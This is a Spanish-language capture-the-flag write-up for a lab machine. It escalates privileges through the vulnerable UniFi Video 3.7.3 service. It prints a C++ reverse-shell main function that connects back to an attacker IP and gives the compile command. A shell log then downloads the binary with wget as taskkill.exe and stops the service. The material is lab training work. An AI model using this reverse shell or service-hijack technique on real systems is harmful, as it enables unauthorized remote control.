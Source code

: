 ```
```

Como podemos ver, la versión 3.7.3 es vulnerable.

Iniciamos por ver como carajos se llama el servicio, esta parte requirió de pasar un rato revisando notas en github, pero finalmente llegue a la opción necesaria:

```
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
                               Microsoft-Windows-Unified-Telemetry-Client           :
                               Microsoft-Windows-Unified-Telemetry-Client           :
UniFiVideoService              Type            : 16
                               ImagePath       : C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
                               DisplayName     : Ubiquiti UniFi Video
                               Description     : Ubiquiti UniFi Video Service
    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService
[10.10.10.104]: PS C:\programdata\unifi-video>
```

Ya tengo el nombre del servicio, ya verificamos que es vulnerable. Ahora solo falta nuestro ejecutable a lanzar.

# cmd reverse shell

En este caso, como no me convencio usar MSF, busque alternativas y me tope con una [muy interesante](https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/). Se trata del código fuente en cpp, para generar un binario para windows desde linux, que lanza el proceso cmd.exe y realizar una conexión inversa hacia la maquina del atacante.

En el código solo modificamos los parámetros de host y port y compilamos.

La función main queda así:

```
int main(int argc, char **argv) {
    FreeConsole();
    if (argc == 3) {
        int port  = atoi(argv[2]); //Converting port in Char datatype to Integer format
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.13.121";
        int port = 3001;
        RunShell(host, port);
    }
    return 0;
}
```

Compilamos:

`i686-w64-mingw32-g++ r.cpp -o r.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService